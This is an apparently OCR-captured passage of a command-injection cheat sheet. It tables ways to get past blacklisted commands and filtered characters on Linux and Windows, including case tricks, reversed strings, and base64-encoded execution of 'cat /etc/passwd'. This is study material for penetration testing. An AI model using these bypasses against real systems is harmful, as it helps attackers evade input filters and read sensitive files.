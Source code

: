 ## Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |
| **Case Manipulation** |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** |
| `echo 'whoami' \| rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

---
# Windows

## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** |
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |

---
## Blacklisted Command Bypass
